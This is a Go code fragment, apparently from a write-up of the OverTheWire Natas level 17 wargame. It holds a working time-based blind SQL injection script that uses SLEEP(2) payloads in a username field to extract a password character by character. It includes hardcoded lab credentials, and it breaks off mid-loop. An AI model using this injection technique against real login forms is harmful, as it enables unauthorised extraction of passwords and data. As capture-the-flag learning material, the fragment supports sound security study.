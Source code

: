 ```go=

        for _, c := range allchars {

                values := url.Values{}
                values.Set("username","natas18\"AND password like binary \"%" + string(c) +"%\" AND SLEEP(2)#")

                data := strings.NewReader(values.Encode())
                //stat time now
                start := time.Now()
                req, err := http.NewRequest("POST", "http://natas17.natas.labs.overthewire.org", data)
                if err != nil {
                        fmt.Println("Error", err)
                        return
                }

                req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
                //req.Header.Add("Authorization", "Basic "+encode)
                req.SetBasicAuth("natas17", "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd")
                //Make the request and read the response

                resp, err := http.DefaultClient.Do(req)

                if err != nil {
                        fmt.Println("Error", err)
                        return
                }
                defer resp.Body.Close()

                //print status
                fmt.Println("Status", resp.Status)
                body, err := ioutil.ReadAll(resp.Body)
                if err != nil {
                        fmt.Println("Error:", err)
                        return
                }

                //Elapsed time from start
                elapsed := time.Since(start) 
                fmt.Println("Body:", string(body))
                fmt.Println("Time: ", elapsed)
                if elapsed > 2000000000 {
                        password += string(c) 
                        fmt.Println("password: ", password)
                }


        }
/outtext := "8kFgPV84uLwvZkGn6kqQ68knqG"

                   //agknoquvwxDEFGJLNPQUVZ468
        //password := "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$&()*+,-./:;<=>?@[]^_{|}~"
        password := "agknoquvwxDEFGJLNPQUVZ468"
        outtext := "8kFgPV84uLwvZkGn6okJQ6aq"
        temp := ""
        //outtext := "8"
        for len(outtext) < 32 {

                for _, c := range password {
                        values := url.Values{}
                        temp = string(c) + outtext
```